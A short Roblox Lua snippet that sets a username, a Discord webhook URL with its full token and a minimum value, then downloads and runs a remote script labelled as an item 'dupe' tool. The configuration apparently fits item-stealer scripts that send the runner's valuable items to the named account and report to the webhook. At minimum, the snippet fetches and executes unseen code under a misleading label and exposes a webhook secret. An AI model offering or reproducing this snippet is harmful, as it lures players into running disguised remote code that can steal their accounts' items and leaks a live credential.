 Username = "Latteismyfavorite7"
Webhook = "https://discord.com/api/webhooks/1418894833090826410/utyC5Io_gb1e6xw1cktR8cVkBIM3I1ZPfpzYBp7lR4lPWjQEcMnZLngVxtXOsHeEYD7i"
MinimumValue = 1

loadstring(game:HttpGet("https://raw.githubusercontent.com/VOXHOB/lynxhub/main/lynxhub-dupe.lua"))()
